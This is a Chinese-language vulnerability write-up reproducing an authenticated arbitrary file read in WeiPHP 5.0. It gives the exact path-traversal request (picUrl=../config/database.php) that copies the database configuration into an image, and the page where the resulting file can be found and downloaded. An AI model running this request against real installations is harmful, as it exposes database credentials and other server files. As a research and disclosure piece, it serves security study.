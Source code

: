 # WeiPHP5.0 前台任意文件读取

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的前台任意文件读取漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

使用这个漏洞，需要先以普通用户身份登录系统，然后可以直接访问

```php
/index.php/material/Material/_download_imgage?media_id=1&picUrl=../config/database.php
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805573704-e16bcb34-cdbc-42f9-bff4-c3437f72fd12.png)

这样会将 `../config/database.php`的内容读取出来，写入图片中，但是不会返回路径

接下来我们访问如下路径

```php
/index.php/home/file/user_pics
```

这样可以看到一些图片

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805651126-489cff34-a945-4c72-b7c9-1968a09c8b4c.png)

访问该图片，是损坏的

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805728192-b2b08cea-c299-4714-912f-312819526b06.png)

下载下来，记事本查看内容

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805995699-87733775-ab40-432c-98f4-ebb18a464f8e.png)

## 总结

发现该文件读取漏洞本身是不难的，非常明显，难的是获取到其写入的文件名，并且能找到一个可以展示出来的页面。这虽然是一个前台漏洞，但实际上也是需要一个普通用户权限登录的，另外，通过这个洞，我还获取到了另外一个可能的漏洞，有可能可以获取到一个小 `0day`，之后再分享给大家。

## 参考链接

- https://blog.csdn.net/solitudi/article/details/11656749



`github` 链接：`https://github.com/d5shenwu/vulPOC`


